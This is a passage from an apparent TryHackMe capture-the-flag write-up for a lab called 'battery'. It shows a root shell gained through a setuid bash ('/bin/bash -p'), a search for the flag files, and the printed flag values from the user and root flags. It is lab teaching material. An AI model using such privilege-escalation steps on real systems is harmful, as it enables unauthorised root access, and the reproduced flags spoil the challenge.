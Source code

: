 There we go, we can simply do:

```bash
/bin/bash -p
```

![Pasted image 20250425132249.png](../../IMAGES/Pasted%20image%2020250425132249.png)

We can find all flags now, there are three flags on this CTF:

```
bash-4.3# find / -type f -name "*.txt" 2>/dev/null | head -n 3 
/home/cyber/flag1.txt
/home/yash/flag2.txt
/root/root.txt
```

```
bash-4.3# cat /home/yash/flag2.txt
THM{20c1d18791a246001f5df7867d4e6bf5}
```

```
bash-4.3# cat /root/root.txt
â–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ                                â–ˆâ–ˆ
â–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ  â–ˆâ–ˆâ–ˆâ–ˆ
â–ˆâ–ˆ                                â–ˆâ–ˆ
â–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆâ–ˆ


						battery designed by cyberbot :)
						Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859



THM{db12b4451d5e70e2a177880ecfe3428d}
```

